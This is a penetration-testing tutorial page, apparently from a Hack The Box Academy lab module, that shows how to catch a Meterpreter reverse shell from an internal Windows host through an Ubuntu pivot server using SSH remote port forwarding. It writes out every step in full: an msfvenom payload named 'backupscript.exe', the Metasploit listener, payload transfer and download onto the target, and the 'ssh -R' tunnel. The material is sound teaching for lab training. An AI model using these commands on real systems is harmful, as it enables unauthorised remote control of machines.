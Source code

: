 forward a local service to the remote port

As can be seen in the image below, in our previous case, we could pivot into the Windows host via the Ubuntu server.

![](https://academy.hackthebox.com/storage/modules/158/33.png)

`But what happens if we try to gain a reverse shell?`


Windows server doesn't know how to route traffic leaving its network (172.16.5.0/23) to reach the 10.129.x.x (the Academy Lab network).


There are several times during a penetration testing engagement when having just a remote desktop connection is not feasible. You might want to `upload`/`download` files (when the RDP clipboard is disabled), `use exploits` or `low-level Windows API` using a Meterpreter session to perform enumeration on the Windows host, which is not possible using the built-in [Windows executables](https://lolbas-project.github.io/).


To gain a `Meterpreter shell` on Windows, we will create a Meterpreter HTTPS payload using `msfvenom`, but the configuration of the reverse connection for the payload would be the Ubuntu server's host IP address (`172.16.5.129`). We will use the port 8080 on the Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.

#### Creating a Windows Payload with msfvenom

```shell-session

msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```


#### Configuring & Starting the multi/handler

```shell-session
 use exploit/multi/handler
```

```shell-session
 set payload windows/x64/meterpreter/reverse_https
```

```shell-session
set lhost 0.0.0.0
```

```shell-session
 set lport 8000
```

```shell-session
run
```

#### Transferring Payload to Pivot Host

```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

#### Starting Python3 Webserver on Pivot Host

```shell-session
ubuntu@Webserver$ python3 -m http.server 8123
```

#### Downloading Payload on the Windows Target

```powershell-session

Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Once we have our payload downloaded on the Windows host, we will use `SSH remote port forwarding` to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use `-vN` argument in our SSH command to make it verbose and ask it not to prompt the login shell. The `-R` command asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.

#### Using SSH -R

```shell-session

ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

The below graphical representation provides an alternative way to understand this technique.

![](https://academy.hackthebox.com/storage/modules/158/44.png)


